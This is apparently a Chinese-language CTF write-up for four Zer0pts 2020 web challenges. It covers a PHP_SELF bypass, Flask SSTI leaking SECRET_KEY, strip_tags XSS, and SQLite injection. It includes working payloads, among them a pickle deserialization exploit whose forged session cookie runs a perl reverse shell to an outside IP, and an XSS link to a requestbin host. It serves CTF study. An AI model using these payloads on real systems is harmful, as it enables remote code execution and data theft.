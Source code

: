 # Zer0pts2020

## Can you guess it?

给了源码
```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

发现``hash_equals``绕不过去，只能想办法从别的地方入手

问题出在``$_SERVER['PHP_SELF']``

>$_SERVER['PHP_SELF'] 表示当前 php 文件相对于网站根目录的位置地址，与 document root 相关。
>
>假设我们有如下网址，$_SERVER['PHP_SELF']得到的结果分别为：
>
>http://ctf.ieki.xyz/php/ ：/php/index.php
>http://ctf.ieki.xyz/php/index.php ：/php/index.php
>http://ctf.ieki.xyz/php/index.php?test=foo ：/php/index.php
>http://ctf.ieki.xyz/php/index.php/test/foo ：/php/index.php/test/foo
>
>```php
>$url = "http://".$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'];
>```


用Unicode可以绕过

payload

```
http://2086784a-a065-458e-8566-2d1a200b1f41.node3.buuoj.cn/index.php/config.php/%E5%95%A5?source
```

## Notepad

源码审计，有很明显的SSTI

```python
@app.errorhandler(404)
def page_not_found(error):
    """ Automatically go back when page is not found """
    referrer = flask.request.headers.get("Referer")
    
    if referrer is None: referrer = '/'
    if not valid_url(referrer): referrer = '/'
    
    html = '<html><head><meta http-equiv="Refresh" content="3;URL={}"><title>404 Not Found</title></head><body>Page not found. Redirecting...</body></html>'.format(referrer)
    
    return flask.render_template_string(html), 404

def valid_url(url):
    """ Check if given url is valid """
    host = flask.request.host_url
    
    if not url.startswith(host): return False  # Not from my server
    if len(url) - len(host) > 16: return False # Referer may be also 404
    
    return True
```

POC:
```
Referer:  http://37785aff-4b7b-4655-8a7f-b86e7af93f88.node3.buuoj.cn/{{7*7}}
```

限制了payload长度...

发现有``session``去读``SECRET_KEY``看看

```
&#39;SECRET_KEY&#39;: b&#39;&#34;\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh&#39;
->
'SECRET_KEY': b'"\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh'
```

Tips:
> 命令行下输入不可见字符可以使用
> -s `echo ueUt4wLFsf5b9T3iO2TzhQ==|base64 -d`

看下Session存的啥

利用flask-session-cookie解码工具可以看到里面有savedata

多次解码后可以看到很像pickle序列化对象

事实上我们也可以从源码中发现这一点

```python
def load():
    """ Load saved notes """
    try:
        savedata = flask.session.get('savedata', None)
        data = pickle.loads(base64.b64decode(savedata))
    except:
        data = [{"date": now(), "text": "", "title": "*New Note*"}]
    
    return data
```


那么解法就很明显了,利用反序列反弹shell或者curl外带数据

Exp:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import pickle 
import sys
import base64
import pickletools

COMMAND = """perl -e 'use Socket;$i="174.1.197.19";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'"""
# 174.1.197.19

class PickleRce(object):
    def __init__(self):
        super(PickleRce, self).__init__()
        self.id = 1
        self.name ="eki"
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))
x = PickleRce()
s = pickle.dumps(x)

pickletools.dis(s)

app = Flask(__name__)
app.secret_key = b'"\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)


payload= {"savedata": base64.b64encode(s)}
print(session_serializer.dumps(payload))
```


## music blog

题目中说给管理员看 大概是个xss题

网页源码有个交互按钮

```
<a href="like.php?id=b54959b9-9a17-43d6-a2d8-5e800ce6d8d2" id="like" class="btn btn-love">♥ Like this post</a>
```

php strip_tags的一个问题

```
root@737a6cc33ba8:~# php -r "echo strip_tags('<script>','<audio>');"
root@737a6cc33ba8:~# php -r "echo strip_tags('</audio>','<audio>');"
</audio>
root@737a6cc33ba8:~# php -r "echo strip_tags('<a/udio>','<audio>');"
<a/udio>
```

Exp:

```html
<a/udio id=like href=http://http.requestbin.buuoj.cn/1j616ye1>eki
```

## phpNantokaAdmin


```sql
select Name from User
->
Name
Eki
John
Alice

select [Name][123] from User
->
123
Eki
John
Alice
```

对于这道题

```sql
CREATE TABLE $table_name (dummy1 TEXT, dummy2 TEXT, `$column` $type);

table_name=[abc]as select [sql][&columns[0][name]=]from sqlite_master;&columns[0][type]=1
->
$sql = "CREATE TABLE [abc] as select [sql][ (dummy1 TEXT, dummy2 TEXT, `]from sqlite_master;` 1);";
->
create table [abc] as select sql from sqlite_master
```

注就完了

-> ``CREATE TABLE `flag_bf1811da` (`flag_2a2d04c3` TEXT)``

-> ``table_name=[abc]as select [flag_2a2d04c3][&columns[0][name]=]from flag_bf1811da;&columns[0][type]=1``
